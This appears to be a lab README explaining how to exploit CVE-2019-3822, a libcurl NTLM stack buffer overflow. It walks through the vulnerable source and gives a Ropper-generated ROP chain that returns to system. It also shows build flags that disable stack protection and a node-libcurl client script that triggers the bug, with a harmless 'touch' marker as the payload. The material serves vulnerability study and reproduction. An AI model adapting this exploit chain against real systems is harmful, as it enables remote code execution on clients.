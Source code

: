 The script `build-cve-2019-3822.sh` will setup (in the directory $CVE_2019_3822) a NAN Javascript exploit for [CVE-2019-3822](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3822).

In a negotiated  NTLM connection, libcurl sends a message back to the server with the server's original response. If the server sends a large buffer in its original response it overflows a stack buffer allowing for a stack buffer overflow attack.

libcurl can be found at:

```
git clone https://github.com/curl/curl.git
```

`curl-7_63_0` is a vulnerable version:

```git checkout curl-7_63_0```


This memcpy in `Curl_auth_create_ntlm_type3_message` is the overflow:


```
.../curl/lib/vauth/ntlm.c:491

CURLcode Curl_auth_create_ntlm_type3_message(struct Curl_easy *data,
                                             const char *userp,
                                             const char *passwdp,
                                             struct ntlmdata *ntlm,
                                             char **outptr, size_t *outlen)

{
  /* NTLM type-3 message structure:

          Index  Description            Content
            0    NTLMSSP Signature      Null-terminated ASCII "NTLMSSP"
                                        (0x4e544c4d53535000)
            8    NTLM Message Type      long (0x03000000)
           12    LM/LMv2 Response       security buffer
           20    NTLM/NTLMv2 Response   security buffer
           28    Target Name            security buffer
           36    User Name              security buffer
           44    Workstation Name       security buffer
          (52)   Session Key            security buffer (*)
          (60)   Flags                  long (*)
          (64)   OS Version Structure   8 bytes (*)
  52 (64) (72)   Start of data block
                                          (*) -> Optional
  */

  CURLcode result = CURLE_OK;
  size_t size;
  unsigned char ntlmbuf[NTLM_BUFSIZE];

...

#ifdef USE_NTRESPONSES
  if(size < (NTLM_BUFSIZE - ntresplen)) {
    DEBUGASSERT(size == (size_t)ntrespoff);
    memcpy(&ntlmbuf[size], ptr_ntresp, ntresplen);
    size += ntresplen;
  }
```

`ntlmbuf` is declared on the stack with 1024 bytes:

```
curl/lib/vauth/ntlm.h:31

/* NTLM buffer fixed size, large enough for long user + host + domain */
#define NTLM_BUFSIZE 1024

curl/lib/vauth/ntlm.c:69
  unsigned char ntlmbuf[NTLM_BUFSIZE];
```

If the ntlm connection is negotiated, `ntresplen` is calculated here:

```
curl/lib/vauth/ntlm.c:592

    /* NTLMv2 response */
    result = Curl_ntlm_core_mk_ntlmv2_resp(ntlmv2hash, entropy,
                                           ntlm, &ntlmv2resp, &ntresplen);

curl/lib/curl_ntlm_core.c:696
CURLcode Curl_ntlm_core_mk_ntlmv2_resp(unsigned char *ntlmv2hash,
                                       unsigned char *challenge_client,
                                       struct ntlmdata *ntlm,
                                       unsigned char **ntresp,
                                       unsigned int *ntresp_len)

...
  /* Calculate the response len */
  len = NTLM_HMAC_MD5_LEN + NTLMv2_BLOB_LEN;  # 1488 > 1024

  return result;
```


Since 1488 > 1024 the stack buffer is overwritten. (I think their analysis of this bug is wrong too; this buffer is a fixed size so any negotiated ntml response will overflow the buffer.)

```
    memcpy(&ntlmbuf[size], ptr_ntresp, ntresplen);
```

The `ptr_ntresp` is a (thankfully) base64 decoded buffer sent from the server.
A decoded base64 buffer is binary and it's memcpy'd (not strcpy'd) so we don't need to worry about zeroes in the overflow.

For here on it's a pretty standard stackflow: return to libc (system) with the command in the `rdi` register.

Somethings you get lucky and you command is already in `rdi`: this is not one of those times.

Sometimes you get lucky and you can just point `rdi` to a place on the stack with your command. This worked fine under the debugger but the stack was weirdly trashed by the time system was call outside the debugger (often they are very close if ASLR is disabled)

Instead we'll just use ropper to create a rop chain to load our command into an address in the heap. Since ASLR is disabled we can just make an guess at a valid heap address then load that address into `rdi`.

This is the python generated by Ropper that generates the rop chain string to load the command `touch REQUIRESECURITY` into `rdi`. The string is added to server's initial response so it aligns retq.

```
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x7ffff5863000 # a0e971d42962917d1054da891917230387f2613ff20c74bfd30a02c334280078
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = b''

addr = 0x555557374000

rop += rebase_0(0x00000000000434f7) # 0x00000000000434f7: pop rax; ret; 
rop += b"touch RE"
rop += rebase_0(0x00000000000322bc) # 0x00000000000322bc: pop rdx; pop rcx; pop r12; ret; 
#rop += rebase_0(0x000000000008f000)
rop += p(addr)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000042fe5) # 0x0000000000042fe5: mov qword ptr [rdx], rax; ret; 
rop += rebase_0(0x00000000000434f7) # 0x00000000000434f7: pop rax; ret; 
rop += b'QUIRESEC'
rop += rebase_0(0x00000000000322bc) # 0x00000000000322bc: pop rdx; pop rcx; pop r12; ret; 
#rop += rebase_0(0x000000000008f008)
rop += p(addr + 8)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000042fe5) # 0x0000000000042fe5: mov qword ptr [rdx], rax; ret; 
rop += rebase_0(0x00000000000434f7) # 0x00000000000434f7: pop rax; ret; 
rop += b"URITY   "
rop += rebase_0(0x00000000000322bc) # 0x00000000000322bc: pop rdx; pop rcx; pop r12; ret; 
# rop += rebase_0(0x000000000008f010)
rop += p(addr + 16)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000042fe5) # 0x0000000000042fe5: mov qword ptr [rdx], rax; ret; 
rop += rebase_0(0x00000000000434f7) # 0x00000000000434f7: pop rax; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x00000000000322bc) # 0x00000000000322bc: pop rdx; pop rcx; pop r12; ret; 
# rop += rebase_0(0x000000000008f018)
rop += p(addr + 24)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000042fe5) # 0x0000000000042fe5: mov qword ptr [rdx], rax; ret; 
rop += rebase_0(0x000000000001fa40) # 0x000000000001fa40: pop rdi; ret; 
#rop += rebase_0(0x000000000008f000)
rop += p(addr)
rop += rebase_0(0x00000000000219e3) # 0x00000000000219e3: pop rsi; ret; 
# rop += rebase_0(0x000000000008f018)
rop += p(addr + 24)
rop += rebase_0(0x00000000000322bc) # 0x00000000000322bc: pop rdx; pop rcx; pop r12; ret; 
# rop += rebase_0(0x000000000008f018)
rop += p(addr + 24)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x00000000000434f7) # 0x00000000000434f7: pop rax; ret; 
rop += p(0x000000000000003b)
rop += p(0x7ffff59bcbe1)
rop += p(0x7ffff7aa6410)
ntlm += rop
```

This line does an extra retq to realign the stack.
```
rop += p(0x7ffff59bcbe1)
```

And this line returns to `system`.

```
rop += p(0x7ffff7aa6410)
```


Modern gcc code detects stack smashing by default. Rather than deal with stack canaries we just build libcurl with stack protections disabled:

```
CFLAGS="-fno-stack-protector" CPPFLAGS=$CFLAGS ./configure --with-openssl --enable-debug --prefix=${CVE_2019_3822}/build/curl
```

Finally a node-libcurl javascript connecting using a negotiated NTLM connection:

```
const { Curl } = require('node-libcurl');

const curl = new Curl();

curl.setOpt('HTTPAUTH', '8');
curl.setOpt('URL', 'localhost:5555');
curl.setOpt('FOLLOWLOCATION', true);
curl.setOpt('USERPWD', 'uname:p');
curl.on('end', function (statusCode, data, headers) {
  console.info(statusCode);
  console.info('---');
  console.info(data.length);
  console.info('---');
  console.info(this.getInfo( 'TOTAL_TIME'));
  
  this.close();
});

curl.on('error', curl.close.bind(curl));
curl.perform();
```

libcurl has a `--negotiate` option but this does not set the ntlm connection to negotiate. The server's response has a flag set to tell the client this ntlm connection is negotiated.







